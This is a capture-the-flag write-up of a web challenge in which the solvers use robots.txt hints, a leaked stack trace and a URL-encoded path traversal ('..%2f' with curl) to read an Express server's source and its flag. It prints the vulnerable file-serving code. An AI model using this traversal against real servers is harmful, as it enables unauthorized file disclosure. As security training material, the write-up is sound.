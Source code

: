 # Log Me Policy
* Category: Web
* 200 Points
* Solved by the JCTF Team

## Description
> Hi there, our SOC team recived message that a hacker was quickly able to compromise our customer's senstive data by abuse our super-secure login page.
> 
> Could you spot the vulnerability and let us know the flag?


## Solution

We visit the attached website and get a simple login page (`https://logmepolicy.appsecil.ctf.today/relam/splogin`).

Apart from the login form, the login page contains a link to the terms of use:

```html
<div class="text-center">
    By login you are accept to our <a class="small" href="../documentation/terms.txt"
                                        download>terms of
        use</a> policy.
</div>
```

Let's take a look at `robots.txt`:

```
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/robots.txt
User-agent: *
Disallow: /
Disallow: /documentation/terms.txt
Disallow: /documentation/old_terms.txt
```

So both `terms` and `old_terms.txt` are hidden from search engines.

Let's check the terms:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/relam/../documentation/terms.txt
Website Terms of Use
Version 2.0

The Website Name website located at Website.com is a copyrighted work belonging to Website Name. Certain features of the Site may be subject to additional guidelines, terms, or rules, which will be posted on the Site in connection with such features.

All such additional terms, guidelines, and rules are incorporated by reference into these Terms.

These Terms of Use described the legally binding terms and conditions that oversee your use of the Site. BY LOGGING INTO THE SITE, YOU ARE BEING COMPLIANT THAT THESE TERMS and you represent that you have the authority and capacity to enter into these Terms. YOU SHOULD BE AT LEAST 18 YEARS OF AGE TO ACCESS THE SITE. IF YOU DISAGREE WITH ALL OF THE PROVISION OF THESE TERMS, DO NOT LOG INTO AND/OR USE THE SITE.

These terms require the use of arbitration Section 10.2 on an individual basis to resolve disputes and also limit the remedies available to you in the event of a dispute.
```

Nothing interesting there. Let's move one to the old terms:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/relam/../documentation/old_terms.txt
Error: ENOENT: no such file or directory, open '/app/documentation/old_terms.txt'
    at Object.openSync (fs.js:462:3)
    at Object.readFileSync (fs.js:364:35)
    at /app/app.js:40:21
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
    at param (/app/node_modules/express/lib/router/index.js:354:14)
    at param (/app/node_modules/express/lib/router/index.js:365:14)
```

We get an exception originating from `/app/app.js`.

Let's try to read it:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/app.js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /app.js</pre>
</body>
</html>
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/documentation/../app.js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /app.js</pre>
</body>
</html>
```

No luck. Notice however that in both cases the error message refers to `/app.js`, without mentioning `/documentation/../app.js`. Let's take a closer look at the request being sent by `curl` by examining the request headers:
```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl -s -v -I https://logmepolicy.appsecil.ctf.today/documentation/../app.js 2>&1 | grep ">"
> HEAD /app.js HTTP/1.1
> Host: logmepolicy.appsecil.ctf.today
> User-Agent: curl/7.64.0
> Accept: */*
>
```

It looks like `curl` is requesting `/app.js` and not `/documentation/../app.js`. What if the file leak bug is only exposed when accessing paths under `/documentation/`?

To force `curl` to send the path as-is, we can use an extra flag:

> --path-as-is: Tell curl to not handle sequences of /../ or /./ in the given URL path. Normally curl will squash or merge them according to standards but with this option set you tell it not to do that. 

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl -s -v -I --path-as-is https://logmepolicy.appsecil.ctf.today/documentation/../app.js 2>&1 | grep ">"
> HEAD /documentation/../app.js HTTP/1.1
> Host: logmepolicy.appsecil.ctf.today
> User-Agent: curl/7.64.0
> Accept: */*
```

Now the full path that we've supplied is being sent, but we still don't get any useful response:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl --path-as-is https://logmepolicy.appsecil.ctf.today/documentation/../app.js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /documentation/../app.js</pre>
</body>
</html>
```

Encoding the '`/`' as '`%2f`' does the trick:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/documentation/..%2fapp.js
const fs = require('fs');
const path = require('path');
const express = require("express");

const app = express();

// set the view engine to ejs
app.set('view engine', 'ejs');
app.use(express.static(path.join(__dirname, 'public')));

app.use((req, res, next) => {
    res.removeHeader("X-Powered-By");
    res.append('Server', 'AppSec-IL/20.20');
    res.append('Access-Control-Allow-Origin', ['*']);
    res.append('Access-Control-Allow-Methods', 'GET,PUT,POST,DELETE');
    res.append('Access-Control-Allow-Headers', 'Content-Type');
    next();
});

app.get("/", (req, res, next) => {
    res.redirect('/relam/splogin')
});

app.get("/relam/splogin", (req, res, next) => {
    res.render("login", {error: ""});
});

app.post("/relam/splogin", (req, res, next) => {
    res.render("login", {error: 'Username or password is incorrect.'});
});

/***
 * @TBD: our engineering team told us to check out this method, let's test it next sprint
 * AppSec-IL{d0_n0T_t4UST_uS34_iNp7t}
 */
app.get("/documentation/:file", (req, res, next) => {
    let buffer = "";
    const filePath = path.join(__dirname, "documentation", req.params.file);
    try {
        buffer = fs.readFileSync(filePath);
    } catch (error) {
        buffer = error.stack.toString();
    }
    res.type('application/octet-stream');
    res.send(buffer.toString());
});

app.listen(8081, () => {
    console.log("Server running on port 8081");
});
```

This confirms our suspicion that the path traversal bug exists only under `/documentation/`.

The flag: `AppSec-IL{d0_n0T_t4UST_uS34_iNp7t}`